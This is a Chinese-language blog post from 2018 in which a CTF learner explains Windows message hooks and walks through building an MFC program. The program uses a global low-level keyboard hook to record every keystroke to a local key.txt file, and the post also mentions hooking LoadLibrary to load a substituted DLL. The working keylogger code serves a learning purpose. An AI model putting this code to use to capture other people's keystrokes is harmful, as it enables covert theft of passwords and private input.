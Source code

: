 ```yaml
---
layout:     post
title:      Hook学习
subtitle:   kxctf中碰到了这个，不会，wp都看不懂
date:       2018-12-28
author:     gxkyrftx
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - Hook
    - c++
---
```


# 0x01 hook是什么

Hook，是Windows消息处理机制的一个平台，应用程序可以在上面设置子程序以监视指定窗口的某种消息，而且所监视的窗口可以是其他进程所创建的。当消息到达后，在目标窗口处理函数之前处理它。钩子机制允许应用程序截获处理window消息或特定事件。

钩子实际上是一个处理消息的程序段，通过系统调用，把它挂入系统。每当特定的消息发出，在没有到达目的窗口前，钩子程序就先捕获该消息，亦即钩子函数先得到控制权。这时钩子函数即可以加工处理（改变）该消息，也可以不作处理而继续传递该消息，还可以强制结束消息的传递。

划重点：监视某程序，等一个事件发生，在正常的应该处理这个事件的动作之前，先进行捕获，hook函数先执行这个事件。

# 0x02 hook的原理

举个例子，弹窗是程序中很常见的一个api(Application Programming Interface，就是开发人员预置的程序接口，使用者可以调用），常见的就是MessageBox函数,那么hook就是，我们把这个API,变为我们的API去执行,执行完我们的代码之后再去执行它的的函数。

其实相当于就是我们在这个API之前,跳转到我们的函数执行了,然后跳转之后,我们执行完毕之后,可以选择是否在跳转回去,但是这里注意,跳转回去则跳转到msg的return处位置即可。eax可以给一个值,让它返回。

利用这个技术,我们可以监控API,比如应用程序会调用loadLibrary,那我们把它Hook了,把Dll路径改成我们的,那加载的就是我们的dll了,当然 Hook的API很多,因为只要是Windows的API都能HOOK

# 0x03 hook实例-获取键盘输入

说一千道一万，最重要的还是要落实到应用，来看看怎么实现

## 1.开发环境

    windows10,vs2010
    
## 2.前期准备

    文件——>新建——>项目——>MFC——>MFC应用程序——>应用程序类型选基于对话框——>完成
    
    然后画两个按钮，如图所示

![hook1](https://github.com/gxkyrftx/gxkyrftx.github.io/blob/master/img/hook1.PNG?raw=true)
    
## 3.程序实现
4.添加库与全局变量

~~~c++
#include <iostream> 

#include <string> 

#include <fstream>
 
using namespace std;
 
//全局变量
HHOOK glhHook = NULL;			//安装的鼠标勾子句柄 
BOOL g_bCapsLock = FALSE;		//大小写锁定键	
BOOL g_bShift = FALSE;			//shift键
ofstream SaveFile("key.txt");
~~~
	
2.双击hook按钮，对其编程
    
```c++
	void CKeyboardHookDlg::OnBnClickedButton1() {
	string str = "start:";
	SaveFile << str << endl;
	
	glhHook = SetWindowsHookExA(WH_KEYBOARD_LL, KeyboardProc, GetModuleHandle(NULL), NULL);
	//这里调用SetWindowsHookExA()函数，因为hook的实现不是在DLL中，而是直接在KeyboardHookDlg.cpp中实现，所有第3个参数使用	GetModuleHandle(NULL)
	
	if (glhHook != NULL) {
		//AfxMessageBox(L"StartHook成功！");//用于打桩测试
	} 
	else 
	{
		AfxMessageBox(L"StartHook失败！");
	}
	}
```

3.双击stophook，对其编程

```c++
	void CKeyboardHookDlg::OnBnClickedButton2() {
		UnhookWindowsHookEx(glhHook);
	}
```

4.在键盘输入了字符，处理这件事

~~~ c++
//键盘钩子回调函数
LRESULT  CALLBACK  KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	
	char c[2];
	c[1] = 0;
	if ((wParam == WM_KEYDOWN) && (HC_ACTION == nCode)) {		//有键按下
		
		KBDLLHOOKSTRUCT *  keyNum = (KBDLLHOOKSTRUCT *)lParam;
 
		//处理字母大小写
		if ((keyNum->vkCode == VK_CAPITAL) || (keyNum->vkCode == VK_LSHIFT) || (keyNum->vkCode == VK_RETURN) || (keyNum->vkCode >= 65 && keyNum->vkCode <= 90)) {
			
			if (!GetKeyState(VK_CAPITAL)) {	//如果大写锁定键未被按下
				g_bCapsLock = FALSE;
			} else {
				g_bCapsLock = TRUE;
			}
 
			if (GetAsyncKeyState(VK_LSHIFT) & 0x8000) { //如果shift键被按住
				g_bShift = TRUE;
			} else {
				g_bShift = FALSE;
			}
 
			if (keyNum->vkCode >= 65 && keyNum->vkCode <= 90) {
				BOOL flag = g_bCapsLock^g_bShift;//同假异真
				if (flag) {
					c[0] = keyNum->vkCode;
				} else {
					c[0] = keyNum->vkCode + 32;
				}
				SaveFile << (int)c[0] << " : " << c << endl;
			}
		}
		//处理数字小键盘
		else if (keyNum->vkCode == 144 || (keyNum->vkCode >= VK_NUMPAD0 && keyNum->vkCode <= VK_NUMPAD9)) { //144表示数字小键盘锁键
 
			if (GetKeyState(144)) {		//如果数字小键盘锁键被按下
				int mapKey = keyNum->vkCode - 48;
				SaveFile << keyNum->vkCode << " : " << char(mapKey) << endl;
			}
 
		} else {
			SaveFile << keyNum->vkCode << " : " << char(keyNum->vkCode) << endl;
		}
	}
	return CallNextHookEx(glhHook, nCode, wParam, lParam);
}

~~~

5.随后调试，生成解决方案

# 0x04 运行结果

将生成的MFC程序，移动至任何目录下，随后打开程序，单击hook，随意从键盘输入，观察到本目录出现了key.txt文件，打开看，就是刚才记录的值

![hook2](https://github.com/gxkyrftx/gxkyrftx.github.io/blob/master/img/hook2.PNG?raw=true)
